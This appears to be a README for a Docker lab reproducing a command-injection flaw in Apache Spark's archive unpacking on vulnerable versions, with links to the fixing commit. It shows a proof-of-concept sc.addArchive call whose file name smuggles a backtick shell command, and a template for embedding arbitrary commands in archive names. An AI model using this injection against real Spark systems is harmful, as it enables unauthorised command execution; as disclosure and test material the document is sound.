 # Spark Shell Cmd Injection Vulnearability

## Introduction

The [unTarUsingTar](https://github.com/apache/hadoop/blob/trunk/hadoop-common-project/hadoop-common/src/main/java/org/apache/hadoop/fs/FileUtil.java#L904) method of hadoop was used in spark to extract the archived file in `core/src/main/scala/org/apache/spark/util/Utils#unpack`. In no `windows` platform, it may leading command injection.

Impact version:

```
Spark < 3.1.3
Spark < 3.2.2
```

## Usage

Start the container

```bash
docker-compse up
```

attach to the shell of container and run `spark-shell`, input

```bash
sc.addArchive("/`touch poc.txt`&&poc.tar")
```

Or you can create yourself archive file and copy it to container with

```
touch \`{command(need escapation)}\`\&\&data.tar
```

A local screenshot of poc.

![poc](images/poc.jpg)

## Reference

1. https://github.com/apache/spark/commit/057c051285ec32c665fb458d0670c1c16ba536b2
2. https://github.com/apache/spark/tree/057c051285ec32c665fb458d0670c1c16ba536b2
3. https://github.com/apache/spark/pull/35946